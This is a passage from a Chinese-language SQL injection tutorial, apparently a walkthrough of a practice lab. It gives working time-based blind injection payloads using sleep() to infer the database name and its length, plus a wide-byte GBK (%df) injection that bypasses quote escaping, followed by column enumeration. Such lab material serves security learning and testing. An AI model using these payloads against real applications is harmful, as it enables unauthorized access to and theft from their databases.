 利用sleep()函数和返回时间进行判断是否存在时间盲注

正常输入，反应时间时15毫秒

![image-20230806172038838](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806172038838.png)

构造payload

```
kobe' and if(length(database())>1,sleep(6),1)#
```

![image-20230806172325802](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806172325802.png)

花费了6秒，证明可能存在时间盲注

可判断数据库长度

```
kobe' and if(length(database())>6,sleep(6),1)# //执行了函数，延迟了6秒
kobe' and if(length(database())>7,sleep(6),1)# //没有执行延迟，证明长度是7
```

还可爆破数据库名称,跟布尔盲注是一样操作

```
kobe' and if(substr(database(),1,1)='p',sleep(3),1)#
```

### 宽字节注入(wide byte注入)

一个字节的字符叫做窄字节，两个字节及以上叫宽字节

宽字节注入是绕过sql防御的一种方法，为了防御sql注入，一些函数可以将单引号、双引号进行转义，转义就是再单引号、双引号前面加上转义字符（\）。

mysql使用的是GBK编码（两个字节），`\`的十六进制编码是%5c，前面加%df就可以组成一个繁体字`運`

过程：

id=1%df’（浏览器自动进行url编码%27）->%df%27
 根据以上分析，发生如下转换：
 %df%27—>(check_addslashes)—>%df%5c%27---->(GBK)---->運

最后单引号形成闭合

构造payload

```
kobe%df' or 1=1# //回显所有信息
```

![image-20230806174819990](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230806174819990.png)

接着还可以判断字段数

```
kobe%df' order by 2 //无报错
kobe%df' order by 3 //有报错
```

联合查询进行查询数据库和版本
